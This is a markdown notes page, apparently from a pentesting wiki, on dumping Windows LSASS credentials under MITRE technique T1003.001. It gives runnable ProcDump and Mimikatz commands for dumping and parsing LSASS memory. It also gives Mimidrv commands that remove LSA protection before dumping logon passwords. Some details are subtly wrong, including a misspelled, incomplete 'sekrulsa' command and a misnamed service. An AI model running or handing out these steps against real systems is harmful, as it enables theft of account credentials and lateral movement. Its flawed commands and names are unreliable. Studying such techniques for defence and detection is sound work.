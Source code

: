 # Local Security Authority Subsystem Service (LSASS)

### Resources

1. **LSASS**

{% embed url="https://jumpcloud.com/it-index/what-is-the-local-security-authority-subsystem-service-lsass-exe" %}

2. **ProdDump**

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/procdump" %}

2. **Mimidrv in depth**

{% embed url="https://medium.com/@matterpreter/mimidrv-in-depth-4d273d19e148" %}

3. **MITRE technique, OS Credential Dumping: LSASS Memory (T1003.001)**

{% embed url="https://attack.mitre.org/techniques/T1003/001/" %}

### What is LSASS?

Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security policy and enforces it on a system. The LSASS process stores user credentials in memory to enable users to access network resources, such as file shares and other network services, without needing to enter credentials each time.

Thus, the LSASS process is often targeted by attackers due to the sensitive information it contains about user accounts, to dump credentials for privilege escalation or lateral movement.

The following techniques can be used to exploit this (requires administrator privileges):

> As defined in the MITRE ATT\&CK framework: **OS Credential Dumping: LSASS Memory (T1003.001)**

### LSA protection

Note that the techniques to dump the LSASS process discussed below may not work due the implementation of the LSA protection, which aims to keep LSASS from being accessed to extract credentials from memory

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection#enable-by-using-the-registry" %}

This protection can be enabled with the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` registry key, by setting the `RunAsPPL`&#x20;

**dword** value to **1**.

However, a particular Mimikatz technique can be used to disable this protection (refer to the **Disable LSA protection** section below).&#x20;

### ProcDump

> ProcDump is a command-line utility whose primary purpose is monitoring an application for CPU spikes and generating crash dumps during a spike that an administrator or developer can use to determine the cause of the spike.

In our case, we will be using it to dump the LSASS process to disk:

```powershell
C:\> procdump.exe -accepteula -ma lsass.exe <dump_location>
```

* `-accepteula`:  to automatically accept the Sysinternals license agreement
* `-ma:` To write a 'Full' dump file
  * Includes all memory
  * Includes all metadata

### Mimikatz

We can also use Mimikatz to dump the contents of the LSASS process.

#### a. Dump directly from the live LSASS process (requires administrative privileges)

{% code title="Administrator shell" overflow="wrap" %}
```powershell
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekrulsa
```
{% endcode %}

#### b. Extract from a previously dumped LSASS process file (does not require administrative privileges)

Given that we have previously dumped the LSASS process to a file named `lsass.dmp` using the `ProcDump` utility, we can use the following commands to extract information from the dumped file:

```powershell
mimikatz # sekurlsa::minidump lsass.dmp
```

### Disable LSA protection

**What is Mimidrv?**

Certain Windows functionalities such as disabling the LSA protection can't be performed from user mode. `Mimidrv.sys` driver works on kernel level to disable the LSA protection via a user mode application.

{% code title="Administrator shell" %}
```powershell
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove

# LSASS dump should now succeed
mimikatz # sekurlsa::logonpasswords 
```
{% endcode %}

* `!+`: To implant and start the `Mimidrv.sys` driver from user mode
* `!processprotect:` A function provided by Mimidrv to remove process protection. In our case, it will be the LSASS process.

Refer to the "_Mimidrv in depth_" resource link above for more information.

